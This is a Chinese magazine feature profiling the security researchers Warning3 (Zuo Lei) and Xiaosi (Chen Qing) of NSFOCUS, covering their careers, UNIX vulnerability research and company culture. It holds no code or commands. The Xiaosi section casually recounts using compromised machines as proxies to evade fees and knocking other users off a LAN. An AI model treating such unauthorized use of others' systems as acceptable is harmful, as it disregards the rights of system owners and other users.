当年左磊发现一个网站存在被攻击安全隐患后，准备就此给该站网管发一封善意的警告信，提醒其及时修补防范。由于他还没有合适的网名与电邮账号，就先到 HOTMAIL 上去注册。第一次他以“Warning”注册个人账号，但邮件服务器系统马上告知此名已存在，请改名；于是按多数网友的习惯，第二次他以“Warning1”注册，孰料又被告知重名；于是第三次以“Warning2”再试，没想到依然遭到执着的拒绝。这一来，令左磊哭笑不得的同时也激起了他的“拧劲儿”，又以“Warning3”为名发起第四次“冲击”，结果这次真应了那句“事不过三”：注册成功！于是“Warning3”从此就成为左磊一直沿用不变的网名，因日后他在网络安全界的成名，这个名字也随之变得比其真名更为人熟知。

## 与UNIX的不解之缘

要讲“Warning3”其人其事，还必须先说说 UNIX，因为“Warning3”这个名字与 UNIX 是密不可分的，可以说“Warning3”在中国网络安全界的至尊声望与 UNIX 在计算机科学技术领域的不朽地位是相匹配的，他为完善这一古老经典的计算机操作系统的网络安全性能所作的贡献也有目共睹。

众所周知，微软 Windows 系列产品的商业运作比其本身的技术创新还要成功，比尔·盖茨这位颇有争议的“上帝宠儿”确实创造了一个商业神话，他让全世界很多不用电脑的人都知道了有一个“Windows”的东西，虽然这个“窗口”在电脑业界刚打开不过短短数年；相反，UNIX 这个“古董”却曲高和寡，因为在以“鼠标”指点“图形界面”IT 江山的今天，众多天天泡网的新新人类对“UNIX”一词闻所未闻，更不知道那是一个操作系统。经典与流行是两个不同的概念，在多元化与市场化的时代，优胜劣汰，完全取决于人们需求的自由选择，无论你是否喜欢微软，如果你已习惯了图形界面的操作环境，那 Windows 当然是首选，而如果你是个技术的狂热追求者与传统的“卫道士”，那么在 UNIX 的 SHELL 命令行中的每一次键盘输入也会带给你无尽的快感，当然现在还有了 Linux 这一集传统与现代优点之大成的另类选择。但经典就是经典，经典是由时间来定义和证明的，UNIX 卓越非凡的稳定表现与网络性能，决定了其在互联网服务器及企业级网络应用中不可撼动的地位。但选择并研究经典则需要一定的修养与驾驭能力，一种平和稳健、甘于寂寞的学术心态，卓而不群成绩的背后是对心智和毅力的艰苦磨砺与考验，“Warning3”选择了 UNIX，也就选择了一条艰辛孤独的研究之路。

在中联绿盟公司一间静谧的会议室里，Warning3 语气舒缓地开启被岁月尘封的旧事：

1997年国际互联网在国内刚刚兴起，那时的 Warning3 还在合肥中国科技大学就读，学的也是非计算机专业——机电一体化。对正钻研 UNIX 操作系统的他来说，互联网无疑是一个取之不尽的学习资源，同时也令他开始了对网络安全的特别关注。

最初他在科大自学 UNIX 操作系统的日子是艰苦的。开始阶段是自己到书店买一些关于 UNIX 的书看，但由于 UNIX 没有 Windows 系统这么普及，相对来说 UNIX 的书也很少，所以可供选择的学习资料，特别是那种很符合自己学习方向的参考教程很难找。后来有了互联网，就开始在网上特别是国外 UNIX 技术网站查找学习资料。那时，国内上网的人还远没有现在这么多，Warning3 最初接触了一些国外安全网站的邮件列表，了解到网络安全相关的技术内容，继而又看了不少国外的黑客网站，进一步激发起对网络安全的浓厚兴趣。

但上网对 Warning3 来说也不是件容易事儿，首先当时在学校以及后来工作的东方电子没有提供上网条件，又没有一个 UNIX 操作系统环境可供学习研究，怎么办呢？只好跑到外面找。他工作所在地烟台的网吧也不普及，再加之花销也很大，不可能长时间地上。好在那时常有国家电信部门为推广客户上网而开办一些免费试用的上网场所，但“免费的午餐”是不可能让你舒舒服服地尽情吃个饱的，每次排很长时间的队，每人也只能上网半个小时。没办法，为了有足够时间尽可能多地搜集 UNIX 的学习资料，半个小时一到只好出来再次加入到排队等候“试用”的长龙之中。很多节假日，他一整天的时间就用在了这种排队上网的过程中。

Warning3 的这段经历不禁让我联想起袁哥当年在校园因条件艰苦而“手刃”千行汇编代码的壮举，我相信在网络安全的求知道路上，Warning3 所付出的努力和劳动也必然是艰苦卓绝的。如果说网络安全技术水平达到一个极高层次要得益于勤奋加天赋的话，我宁愿相信前者所占的成分更多一些。而在亲自采访 Warning3 以及袁哥之前，我还一直以为主要是天赋造就了他们令人称奇的超人技艺，与他们接触之后，我的这个观点发生了很大的改变：原来再聪慧的大脑也必须经历反复的甚至是痛苦的思考磨炼才可能与世间奥秘碰撞出耀目的神奇火花。我再次感受到什么是成功背后的艰辛与寂寞。思考的过程是痛苦的，也是永恒的；与之相比，每一次成功与失败的结果都是另一个思考过程的开始。在与 Warning3 谈及系统漏洞分析研究的过程中，他几次用了“痛苦”这个字眼，也谈到了做这项工作要能“吃苦”，虽然他是用一种无可奈何的谈笑语气在讲这两个词，但我对此却印象格外深刻，因为我知道，不管他如何轻描淡写地对此事一带而过，但“痛苦”一定是个真实的过程与心理感受。

> “你要问我如何才能在网络安全技术方面取得一定的成绩，我的回答很简单，除去每个人的一些不同条件与环境机遇等客观因素外，能吃苦肯钻研一定是个最共同最基本的条件与素质。因为这是一项很枯燥的研究工作，需要很长的时间、极大的精力去阅读分析大量源代码，常有百思不得其解乃至不得其门而入的苦闷，有时你会感到很无助，因为没有人能帮你，甚至任何可借鉴的先例与他人经验也没有，只能靠自己思考，那真可以用‘痛苦’两字来形容。当然，一旦经过努力有所发现或最终找到解决答案，那种兴奋与成就感也是常人体会不到的，你会觉得一切辛苦付出都是值得和有意义的。只要有恒心和毅力长期坚持下去，不断地摸索与总结积累经验，就一定会取得成绩。其实做别的工作与学术研究也是一样的道理。”Warning3 如是说。

要论在 UNIX/Linux 系统特别是 SUN 公司 Solaris 系统漏洞分析与发现方面的能力与成绩，Warning3 理应占有当仁不让的至尊地位，在网上搜索引擎键入“Warning3”后全都是 UNIX/Linux 相关系统漏洞的分析论文：《Solaris 2.6 IN.FTPD CWD 用户名猜测漏洞》、《UNIX系统locale格式字符串漏洞浅析》、《inews 缓冲区溢出漏洞》、《Cxterm 的漏洞分析》、《FreeBSD 内核溢出攻击》、《RedHat man 缓冲区溢出漏洞》、《Qualcomm qpopper 远程溢出漏洞》、《Bind 8.2.x 堆栈信息泄漏以及 TSIG 单字节溢出》等等数不胜数。“Warning3”的首次牛刀小试还是在他从科大毕业前后，当时热衷上 BBS 的他偶然间在一个名为火鸟的 BBS 站点上发现了其 POP3 远程溢出问题，从此一发而不可收拾。在 UNIX/Linux 系统下的各种漏洞中，对“溢出”的分析是 Warning3 的拿手好戏，普通“堆栈溢出”之类对他来说已是一种入门级必备的基础东西，现在已转向兴趣很浓的“堆溢出”、“格式串溢出”等方面的研究及经验总结。

经过对 Solaris 系统的长时间研究，Warning3 现在对该系统最易出隐患的地方已很熟悉，凡有诸如环境变量或参数过长以及该做的限制没有做的地方都是 Warning3 查找漏洞的重点突破口，可以说对这些系统规律性的了如指掌，丰富的经验再加之敏感的洞察分析能力，使现在 Warning3 的分析研究更有针对性及效率。当然，由于 SUN 公司并没有全部公布其系统源代码，也就决定了他的分析更多情况下只能采取半靠经验半靠灵感的“黑箱测试”，沿着大方向“摸着石头过河”。说到这个艰难过程，Warning3 再次用到了“痛苦”一词，看着他微笑无奈地说这两个字儿时，我相信，真正的痛苦可不是说说而已。

令“Warning3”更为“痛苦”的是那段没有系统环境可用甚至上网都很困难的日子。在东方电子上班的时候，所用的电脑一不能上网，二没有 UNIX 和 Linux 环境，而计算机技术学习最讲究实践出真知，总凭看书，理论知识再多不上机实践也不能真正掌握，更何况是网络安全技术，没有实验环境，无异于纸上谈兵。过了一段“无机可用”的日子，“Warning3”再也无法忍受，于是用大量 3.5 寸软盘拷贝了一套 Linux 装在了公司电脑上。那时刻录机与 CD-R 盘对他来说还是一种奢侈品，可令他无法忍受的事情还在继续发生，经常在系统已安装至一半要求插入第 N 张盘时，这张盘发生读写错误！“别提多郁闷了，软盘真是不可靠，总爱坏，用了不知道有多少张，但是当时又没有别的办法拷贝系统，也只能用了。”抚今追昔，Warning3 对那段“艰苦岁月”没齿难忘，感慨良多，“回想起当时条件虽然不好，但很珍惜，现在公司的研发条件差不多可谓应有尽有了，可以 24 小时专线上网，各种系统测试环境与工具也一应俱全，真有天壤之别。”

### UNIX 与 Windows 比较测评之 Warning3 版

作为国内 UNIX 系统安全的专家，Warning3 对 UNIX 操作系统的研究与熟知程度已达到相当高的层次，所以他对 UNIX 系统优缺点的了解以及 UNIX 与 Windows 的比较评价应是很有发言权的。

“首先就系统稳定性而言，UNIX 的表现无疑是极其优秀的，几乎不存在死机现象，有也是机率极低。仅此一点就极胜任企业服务器的角色。而且除了对 UNIX 系统内核进行重新编译，其他情况下，无论对系统进行什么添加、删改或配置都不需要重启系统。当然了，在这一点上 Windows 系统现在也已做了很大的改进，重启系统情况越来越少，但似乎还未完全做到与 UNIX 相同的水平。”

关于系统安全漏洞问题，客观公正地讲，微软 Windows 系统在设计上也是相当出色的，但之所以出现漏洞问题，原因是比较多的，比如其所运行的硬件环境相对于 UNIX 系统要求差一点，也要求低一点，而作为商业操作系统，其源代码的不公开性质反而更激发了“黑客”的好奇心与挑战欲望，加之企业应用也比较广泛，在其上开发的各类商业实际应用程序也多，比如 IE 若存在问题就会直接威胁到 Windows 系统的安全。基于这些原因，Windows 受攻击的机率也就更大一些。更糟糕的是，一旦其系统漏洞被攻击者发现与控制，攻击者往往在并不通知微软，使其身处危情仍浑然不知，以至不能及时对外发布系统漏洞公告及补丁程序，并采取升级等补救防范措施。

相对而言，UNIX 也有漏洞，但由于其内核代码（部分商业版 UNIX 除外）是开放的，漏洞被发现后，全球具有开发能力的 UNIX 专业人士及爱好者都可以加入到编译修补改进的行列中来，大家都可以自发地贡献自己的力量，从而基本上能做到漏洞随出随补。同时，大家都知道在 UNIX 系统上开发的商业应用要比 Windows 少，这也从另一个方面为 UNIX 减少了漏洞产生的机率。但 UNIX 肯定也不是铁板一块，仅我个人发现的漏洞已有不少，最近 SUN 公司 Solaris 方面比较严重的溢出漏洞就又有所发现，所以总体来说，以我个人的研究经验感觉 UNIX 与 Windows 这两大主流操作系统的漏洞存在机率是大体相同的，差不了太多。

就两大主流操作系统的未来发展趋势而言，我认为不会存在谁被谁击败或取代的问题，这也是由两种系统各自不同的特性与优势以及不同用户的需求决定的，且在过去的时间里二者的竞争历史也说明了这一点。不过在 UNIX 之后出现了现在势头很盛的 Linux，作为 UNIX 的一种演化派生物，Linux 的出现，在某种意义上讲加大了 UNIX 这种操作系统体系的应用比率与技术优势，同时也对 Windows 提出了更有力的挑战。

对于国外用户来说，由于信息化历史上的使用习惯以及语言上的因素，接受起 UNIX 与 Linux 来很快很方便，而相对国内用户，却存在中文汉化方面的滞后等问题，比如现在市面上可以看到的各类 Linux 中文版其联机帮助信息却还是英文的，这就给国内用户的使用和学习带来一定的不便。当然，基于 UNIX 与 Linux 上的应用开发也是一个问题，可喜的是现在国内外一些知名的软件硬件企业厂商已经越来越意识到这个问题，也已经纷纷推出了自己基于 UNIX/Linux 的商业应用，相信 UNIX/Linux 的未来发展前景还是光明的，但这同时也对我们从事这一系统网络安全研究的人提出了更高的要求。

国内有一个比较知名的 UNIX 技术专业网站，叫“永远的 UNIX”，我很喜欢这个名字，因为它充分表达了一种执着与永恒的信念。在这个站点上有大量 Warning3 的原创大作，我认为， UNIX 这一古老经典的操作系统正需要更多 Warning3 这样青年才俊的智慧不断“刷新”与“升级”，才能永葆其不朽魅力。

### 绿盟——有着绿色般希望的同道者联盟

> 采访中我向 Warning3 提了这样一个问题：“众所周知，现代企业的竞争说到底还是人才的竞争，绿盟何以能将诸多你与袁哥这样的国内顶尖网络安全人才聚集在旗下呢？”

> Warning3：“我觉得首先就是大家都一致看好网络安全这个行业的发展前景，从而也就对公司发展的大方向有信心。再有就是一种非常和谐融洽的工作环境与企业文化氛围，有了这些大前提，再加上有沈总他们这样好的企业领导管理层与科学先进的现代企业管理机制；大家有缘聚在一起成就一番事业也就是一个顺理成章的事情。你可能也听说过绿盟初创阶段在暂时资金周转困难的情况下，一度暂停发了员工三个月的工资，但为什么大家都没走，同心同德的一起走到了今天？因为大家都有一个共识，就是对企业发展前景的一致看好，上上下下都有一个长远眼光和信心，资金的暂时紧张是有一定原因的，也是企业发展过程中的正常现象，短期的困难终是能克服的。

> 我还想强调一点的是，大家都非常珍惜这里和谐的人际关系与工作氛围，1999 年创业初期我们只有十几个人，原先大家基本都不认识，但相处几天就感觉像老朋友一样亲切自然与和谐，我们这些做技术出身的人彼此之间在技术方面的交流是非常密切的，不搞技术研究的人不会知道，这种交流有多么重要，很多新鲜独特的想法每天都会产生，这对提高自己的技术水平很有帮助，别人的经验和长处也许就是你自己欠缺与急需的。你比如说，我和袁哥研究的技术领域不同，但是他研究 Windows 时的一些角度与思路或许对我在 UNIX 分析方面也可能有所启发，反之亦然。我们研究部的人现在会定期在一起开个小型的交流会，或者会随时随地就技术问题聊一聊，可以说在绿盟这个环境中以技术交流促进共同提高也形成一种员工的自发行为。我觉得良好的技术交流与发展环境，就是最吸引人加入到绿盟的重要原因吧，所以说假使面临跳槽的选择，我一定会非常看重这一点，如果没有比绿盟更好的技术交流与发展环境那又何必呢？”

Warning3 的话让我越发感受到绿盟企业凝聚力的能量，如果说以前与网络安全圈内的朋友聊天对“绿盟人心很齐”之说“耳闻是虚”，那么今天采访 Warning3 应算是“眼见为实”了吧。联想起“绿盟”这个特点鲜明的企业名称，感觉此名当初的创意是否也有这样一层含意：所谓绿盟，就是“有着绿色生命般希望的志同道合者的联盟”？

一个人的智慧与能力终究是有限的，好比单芯片机，而团队的力量聚集起来能量则是巨大的，如同多处理器并行服务器！

## 隐姓左磊 —— 采访札记

见左磊的第一面，其外表就给我以过目不忘的深刻印象，这倒不是因为他有很“另类”的身形与五官，相反，倒是他从头至脚一副脸谱化的典型知识分子外型给了我很强的视觉冲击；体形瘦削，皮肤白皙，气质儒雅，镜片后的目光沉静，那种似乎触手可及、扑面而来的书卷气息会让你觉得与此公交流自己务必礼数周全，粗俗造次不得。

其实这倒与我心目中网络奇才的外形“模板”之一非常相符。确切地说，他的外形更易让我联想到高等学府的莘莘学子或科研院所里的谦谦学者，与时下网络时代年轻人中较流行的带有极端倾向的另类个性与时尚相比，他的外形与气质都透着正统与保守。

从南下合肥“中科大”求学，到就职于烟台“东方电子”，直至最后加入“绿盟”，他的生活工作轨迹要比他在网络安全领域求知探索的历程简单许多。身为济南人，外表白皙文弱的 Warning3 完全不像人们传统印象中的山东大汉，但他仍有着山东人典型的健谈与直爽，无论是怎样的话题，在他永远温和平静的语气里，任何与之交流的人都能感到闲庭信步般的轻松惬意。只要你简短地提出问题或开启一个话题，他便可以很准确地围绕主题，条理清楚地娓娓道来，还会适当地引申开来。在这样一位“牛人”身上你找不到一点“牛气”，可能还会让你产生“原来也不过如此”的错觉。当然，这错觉的前提是抛开网络安全技术，一旦涉及技术，你会知道什么是曲高和寡与独孤求败。

对于 Warning3 这样的“唯技术论者”，我主观地揣测他一定过着漠视世俗娱乐的学究式的生活，而得到的答案并没太出乎我意料。刚来北京后，有半年时间 Warning3 天天在公司里待着，哪儿也没去玩过，后来还是在公司同事的带动下，业余生活稍微丰富了一点，偶尔与同事朋友在茶余饭后唱唱歌或者看电影。令我有点意外的是文质彬彬的 Warning3 还是个“摇滚”爱好者，当然也不局限于此，好听的音乐他都来者不拒。他还爱看一些球类电视节目，并戏称自己是“伪球迷”，不懂却爱看，看完更不练，偶尔有兴致挥两下乒乓球拍，但屡战屡败，于是又试着从羽毛球拍中找回信心，孰料两个回合下来便体力不支。从此，在每天下班后公司附近的昆玉河畔，就可见到“绿盟长跑队”里 Warning3 的纤瘦身影。

周六周日对 Warning3 来讲是真正意义上的双休日，更确切地说是睡觉日，一觉醒来必是中午时分，把一周没睡足的觉都补回来了；下午处理一下卫生及私人事务，间或出门转转，一周的生活也可谓有张有弛了。虽不好玩好动，但 Warning3 还是有一个未了心愿，那就是渴望到中国著名自然风景区“九寨沟”一游，他说是“九寨沟”的风景照片带给他的视觉震撼，使他对这个列入世界自然生态保护计划的“人间仙境”深切神往。

说到这个话题，Warning3 显得兴致勃勃，甚至超过了谈 UNIX。由此我感到，人的潜在生活情趣其实很丰富，以时下爱玩也会玩的时尚一族的标准看，Warning3 的生活方式未免单一，但有道是“君子欲有所为必有所不为”，人的时间与精力总是有限的，游山玩水与纵歌豪饮都是费时费力的事情，这些业余“进程”会占用不少的科研“系统内存资源”，权衡一下，以事业为重也是自然的。

人如其名，Warning3 是网络安全圈内一个富于同情心与责任感的警示者，看他的技术文章，可以从他的智慧与才学中受益；与他进行交流则更能补充一些人格魅力的东西；特别对那些视 Warning3 为偶像的少年网络安全爱好者们，他可以让他们明白：原来网络安全技术的成功之路是由孤独寂寞与痛苦铺就，既想出风头又怕吃苦的人选择这条路是最大的错误；原来用别人开发的黑客工具“黑”几台肉鸡是这么的无聊与幼稚；原来这个领域学无止境又高手云集；穷尽皓首也只修得沧海一粟。一旦懂得了这些“原来”，也就从本质上缩短了与偶像在思想境界上的距离，而超越偶像的路则只能靠自己一步步脚踏实地踩出！

这也算是习惯了发“警告”的 Warning3 发出的一个“敬告”吧：由衷地希望所有有志于网络安全事业的追梦少年们一路走好。

### 小四的故事
文／本刊记者 秦丁可

#### 访中联绿盟信息技术公司陈庆

> “……我一直都希望大家从这里学到的不是技术本身，而是学习方法和一种不再狂热的淡然。很多技术，明天就会过时，如果你掌握的是学习方法，那你还有下一个机会，如果你掌握的仅仅是这个技术本身，你就没有机会了……”

这是网上广为流传的“小四哥”那篇经典之帖——《你尽力了吗》中的精华之语，我用它作为讲述“小四”平淡中见传奇的故事的开始，因为我认为这篇帖子和这句话可以高度概括“小四”其人，包括他的学术态度和处世哲学。

“小四”本名陈庆，是时下国内网络安全界的热门精英人物之一，继袁哥、Warning3 等人后“绿盟科技”又一技术骨干，UNIX/Linux 系统底层分析高手。在这众多赞誉与头衔的背后，生活中的陈庆非常低调，盛名之下，他只认可一个自我评价：“我只是一个普通的 UNIX 程序员。”

流火七月一个酷暑难耐的午后，我在“中联绿盟”的办公楼按约采访小四。面前的小四再次令我感到现实与想像的差距。中等瘦削的身材，白皙骨感的脸庞，树脂镜片后谦逊坦诚的目光。一件印有“绿盟”公司徽记的黑色工作 T 恤，一条米色西裤，一双“千层底”布鞋。于高档 Office 里满目的名牌西装革履中突显一种洒脱与闲适。在握住他主动伸出的手彼此寒暄时，我感到一种自然随和的热情，一下子淡化了初次见面的陌生感。

#### “象牙塔”里的故事

故事从“小四”这个名字说起，没人想到“小四”与“MUD”有何相关。1997 年在长沙铁道学院电子工程系计算机软件专业上“大四”的陈庆，通过中国教育科研网接触互联网，“MUD”也就是“泥巴”在网上是尽人皆知的经典游戏，陈庆也一度沉迷其中。联网玩“泥巴”的时候，他起了“小四”这么一个用他自己的话说“江湖味道比较浓且具东方色彩”的化名。网名常随着人的使用习惯沿袭下来，所以“小四”叫到今天从未更改。

“小四”高考填报的所有志愿都是与计算机相关专业，且注明不服从分配录取到其他专业。对计算机如此情有独钟，源于高中时接触 BASIC 语言课程后激发的浓厚兴趣。这兴趣使一度热衷参加各类数学竞赛的陈庆改变了高考报数学系的初衷。很巧合，从袁哥到小四，他们原本都在数学上有很强的天赋与浓厚的兴趣，看来有数学天赋的人更易在计算机技术领域取得突出成绩。

计算机专业的学生少不了天天与电脑为伍。那还是 DOS 3.1 盛行的年代，小四与同学开始研究病毒。这似乎也是当时计算机技术里最能激发人兴趣的东西，成为现在很多高手最初入门的切入口，比如袁哥与黄鑫。研究病毒自然离不开汇编，学校在大二时才开设汇编课程，可小四和很多同学大一就已自学成了汇编的高手，搞汇编“成风”，同学间笑谈：“以后你编病毒，我编杀毒软件，大家各赚各的钱。”大伙写起汇编来，动辄就是成千上万行代码。

小四自己则练习着用汇编写一些检查病毒的程序，针对当时病毒喜欢更改系统中断向量的特点，通过硬件编程绕过操作系统对其进行监视。他用这个土方法偶然间还发现了当时风靡全国的江民 KV100 杀毒软件存在的一个小问题，那就是 KV100 每次杀毒，总在电脑内存地址中修改一些内容，但退出后不恢复。后来小四与 3 个同学又用汇编实现了一个比较“大胆”的设想——更换 MSDOS 操作系统中的 COMMAND.COM 执行文件，用自编的文件取而代之，而且做得很成功，加载 Windows 3.1 一点问题也没有，这让他们小有成就感。正由于汇编和 DOS 掌握得太熟练了，以至于他们很难接受 DOS 向 Windows 3.1 的过渡，使他在 Windows 编程方面出现了一个小小的断档，小四就是跳过 Windows 3.1/3.2 而直接用 Windows 95 的，好在计算机技术的快速更新使这一断档变得无足轻重。

大学四年，小四的大部分课余时间都用在图书馆和书店，翻阅了众多汇编书籍和资料，手抄了大量的代码。研究汇编达到了痴迷的程度，甚至有段时间整天琢磨软、硬盘控制器的参数手册，梦想可以实现在软盘有写保护的情况下也能进行写入操作，他试图从这些参数手册中找到可利用的问题，打开突破口，不过最终理智告诉自己，这在理论上是不可能的事情。

在学校，小四还接触了一段曾在微机网络操作系统中独领风骚的 NOVELL 公司的 Netware 网络系统，并在该平台下进行基于 IPX/SPX 通讯协议的编程开发。不久后“JAVA 热潮”席卷全球业界，正准备毕业论文设计的小四便选用 JAVA 编程作为课题。为实现在 JAVA 下网络编程，就得构建基于 TCP/IP 协议的网络开发环境。在老师的帮助下，他用一台 16M 内存的电脑作 NT 服务器，与几台运行 Win95 的电脑组了一个简单局域网，然后就开始研究 TCP/IP 协议和 JAVA 下的底层网络通讯以及 SOCKET 网络编程。与许多程序员不同的是，较之与 UI（用户界面）相关的开发，他更喜欢与底层的东西打交道，这让他时刻保持一种探究事物终极秘密的好奇。

回顾大学生活，小四丝毫未感韶华虚度。如海绵吸水般完成了知识的原始积累。正是这象牙塔里练就的一身扎实基本功，才使他日后的“笑傲江湖”成为一种可能。

#### 小站的故事

本节为你讲述的是小四一段鲜为人知的“传奇”经历。所谓“传奇”是因为它事关小四一生的命运。

1997 年夏天，小四大学毕业。以他的“边疆省身份”，按照当年“从哪来，回哪去”的毕业分配原则，除了回大西北，小四似乎别无选择。在开始不知情的情况下，档案就被兰州铁路局调走，分配到了宁夏银川铁路分局所属的一个名叫银水桥的二级编组站，离银川市还有数百公里。这里生活环境很差，四周是戈壁荒漠。当时按规定，他的工资是每月 425 元，但种种原因，最后发到手里的仅剩区区 245 元！在 1997 年，这笔钱即使在物价水平很低的西北地区，吃饭也快成了问题。

就算这样，他的想法还是只要能安排到站里的电算中心工作，可以接触计算机，也就不走了。但这么一个最低要求也没被满足，他最后被站里分到了“调车组”，而且连做一名“调度员”竟也成了一种奢望。具体工作是他来之前想都想不到的“扛火车”！也就是摘钩、拨道岔。小四幽默地说：“自己从小想当‘铁道游击队员’，这下倒是梦想成真了。”不过凭着对这份工作的新奇，他开始工作热情还挺高，也没怎么觉得一个计算机专业的高材生那敲击键盘的手用来摘钩扳闸有何不妥。

当了 3 个月的“铁道游击队员”，“粗犷豪迈”生活的新鲜感渐渐褪去，代之以枯燥乏味的本色，书生陈庆也开始认真思考自己作为程序员的前途与存在价值，他开始强烈意识到这样下去是一种生命的浪费，且经济上的拮据也濒临向原本就贫困的家里伸手的窘境。于是他给母校的老师和同学写了信，表达了想回校谋职的愿望。由于铁路这边不放人，要走只有“开除”一条路，工作调动不可能。但开弓岂有回头箭，去意已决的小四背起简单的行囊，就踏上了东进的列车。

> “在火车来之前 1 小时，我到站长办公室跟站长去辞行，同时还奢望他能网开一面给我办调动，但他说没有这个权利，需要兰州局批准。他甚至问我如果现在调我去站电算中心，我是不是就愿意留下？我知道自己已绝无回心转意的可能，所以也没有说任何抱怨的话，只强调了一下家庭困难，希望得到站里的理解。现在想起自己当年的念头都不敢相信，刚来站里的时候我就想，只要给我分到电算中心，只要让我摸电脑键盘，那么让我一辈子在这儿给站里编程序我也愿意。”

“FOXPRO数据库程序也行！我在校就入了党，又受军人家庭环境的教育影响，到现在我也是个组织观念很强的人。”小四回忆说。

说到这里，有一个人令小四感怀不已，那就是临行唯一为他送行的站团委书记。

“团委书记是个26岁的转业军人，我们同宿舍，对我一直很好，工作生活上给了不少照顾，走那天只有他一人扛着行李送我。在车站他说了句话，我一辈子也忘不了，他说：‘我会在这儿等你一个小时，如果一个小时后等不到你，我才回去。’因为火车开出半个小时有一个小站，可以在那儿下车再乘别的车返回。他是真心希望我留下，3个多月我们吃住在一起，友情很深。我当时很感动，但我还是对他说：‘你别等了，我肯定不会再回来了！’最后，书记没再说什么，而是掏出1000元钱塞进小四的手里。”

小四走了，真的再也没回头。

#### 跳槽的故事

事隔3个月，小四再次回到长沙母校。老师安排他到学校网络中心工作。由于无法办工作调动，他只能以编外临时的身份工作，每月只有700余元的微薄收入，但小四干得很开心，因为终于又可以摸电脑键盘了，这比什么都重要。

因为小四当初以JAVA为课题获得优秀毕业设计，老师就安排他搞JAVA开发。其间，他参与为铁道部门开发了一套基于网络的无纸化办公系统。那段时间，小四对JAVA的研究热情空前高涨，搞开发的同时还担任水木清华JAVA版的版主。1998年4月，JAVA开发告一段落的同时，学校网络中心与湖南移动公司谈了一个合作开发项目，将小四调去搞基于UNIX的编程。上学时他在学校的SGI图形工作站上就接触过UNIX下的编程，正式做起开发来也不难。当时的电信通讯系统与串口及X.25分组交换协议关系密切，这段实践令小四的此类技术能力大增，并积累了丰富的开发经验，这中间他开发了一个与模拟交换机通讯的程序，这也是他唯一一个用VC开发的带用户界面的程序。不久后他又被派去搞数字交换机，全部转入UNIX SOLARIS下的C语言编程。

由于是通过中国教育科研网上网，在“教研网”内免费，如访问“教研网”以外的国内、外站点则以流量计费。为了“突破限制”，小四便找了一些“肉鸡”代理出国。现在说来，这算是小四做的第一次与网络安全有关的事情。后来从书刊中看到的有关国外“黑客”的内容也激发了他对网络安全技术的浓厚兴趣。1997年互联网在国内刚兴起，上网的人多数有一定计算机技术水准，且以计算机相关专业的高年级本科或研究生居多，与他们的网上交流加快了小四向网络安全领域的技术转向。1997至1998年间，他先后在网上接触了两位现在绿盟的同事DEEPIN和菜哥，经常光顾两人的个人主页。这段时间小四玩得最多的是Socket网络编程，有时把那些能致使Windows 95蓝屏死机的DOS攻击程序找来研究。有时他也为了一己之利搞一些小动作，比如在局域网内与别人同时上网，急于下载网速又慢时，他就将别人“踢下去”，趁别人当机和重启系统之际独享带宽资源。

湖南移动的这个项目小四一直开发到1999年2月，这时他再次为家庭经济困难所累。900元的月薪，除了自己生活，还要负担刚上大学的妹妹的学习及生活费用。当年他本科毕业就想“考研”，准考证都办好了，也因家庭贫困，在考试前一天决定放弃，而这个愿望最终没有实现。经济困难的压力，使对学校很有感情的他无奈之中再次做出离开的决定，就像当初从那个西北小站的出走。临行前，校网络中心主任也是当初接收他来的老师给他支了1000元钱，还把他请到家里吃饭送行。面对一直厚待自己的恩师，小四说：“老师，什么时候您自己开个公司吧，我回来继续跟您干！”

一身简单不能再简单的行囊伴着小四第一次来到了北京。与上次回长沙母校不同，这次“迁移”的目的地并没有他预订好的“接收单位”，原本有一个在北京的同学帮他联系的单位因故告吹。面对未知的前途，小四仍带着今非昔比的自信与老师同学的鼓励上路了。个人能力以及北京在全国首屈一指的网络安全发展环境使对他自己的抉择坚信不已。果然，一到京城便顺利地在国内通讯巨人——深圳华为公司的北京研究所找到一职，在协议软件部做研发。但世事难料，公司的特点以及岗位需要并不能充分发挥他的才华与特长，加之父亲的突然病故，3个月后，他离开了华为，转入了启明星辰这个真正的网络安全专业公司。可以说启明星辰是小四正式介入网络安全工作的开始。面试他的公司网络安全部负责人是位中科院的博士，给他出的考题是开发一个“切断他人TCP/IP连接”的小程序，没几天小四就交上了令他满意的答卷。

在启明星辰的日子里，小四专心于网络协议与系统安全漏洞的研究，完成公司交给的开发任务，间或做些技术资料翻译和文档整理工作。因对网络协议分析浓厚的兴趣，他喜欢用协议分析软件“抓抓（数据）包”来研究。感觉别人开发的SNIFFER（嗅探器）不够“傻瓜化”，就自己动手写。长时间的网络编程，不但使他的网络协议与漏洞分析技术日臻纯熟，更练就了一手C语言的硬功，他戏称用C语言久了，“老本行”JAVA都不会用了。就这样，他在启明星辰一干就是半年。

1999年底，正是“绿盟”招兵买马、蓄势待发的时候。小四在网上遇到了故友，也是现在“绿盟”的工程部总监DEEPIN，后者了解到他的现状后，建议他去“绿盟”，理由是，“绿盟”已经或正在聚集一批圈内“牛人”，包括小四熟识的“WARNING3”、“Adam”都名列其中，公司未来的发展潜力巨大。当时适逢年底，小四想转过年再看看。春节后的一天DEEPIN打来电话，约小四一起去“绿盟”那边看看，小四只想着“正巧去看望一下好友TT（WARNING3）”就如约前往。去时，他还约上了自己在水木清华“黑客版”的好友，也是现在绿盟的同事IPXODI。到了“绿盟”，两人跟着DEEPIN一进门就惊讶地发现里面竟有10来个人，像个有些特别意义的聚会。

他们见到了召集组织者——“眼圈”，“眼圈”说今天请大伙过来，一来吃顿饭相互认识一下，二来开个小会商议一些重要事情。这下小四意识到：这莫不是“绿盟”的“成立誓师大会”？马上有点不好意思，觉得自己是个“外人”。让他意外的事情还在后面，他随后得到一份事先打好的“会议纪要”，发现“与会者名单”中自己和IPXODI的大名竟赫然在列，他这才明白DEEPIN今天约他们来这里的真实用意。后来知道，原来在DEEPIN的推荐下，自己早就被“眼圈”圈进了“绿盟”的“集训名单”了。有了这个“既成事实”，后面的事情自不必说，小四第二天一回启明星辰就交了辞职报告，然后就来“绿盟”上班。初到“绿盟”，小四与WARNING3、袁哥等同在“研发部”，具体工作是开发各种操作系统下的网络工具，主要是Sniffer，这要求开发者熟悉各种操作系统平台，再就是做一些网络工具程序的移植，同时他还写了不少诸如“缓冲区溢出漏洞”之类的普及性教程。缺人手的时候，他还客串一下跑外的“客户技术支持”。事无巨细，在“绿盟”这个良好的技术氛围中，小四干得很开心。

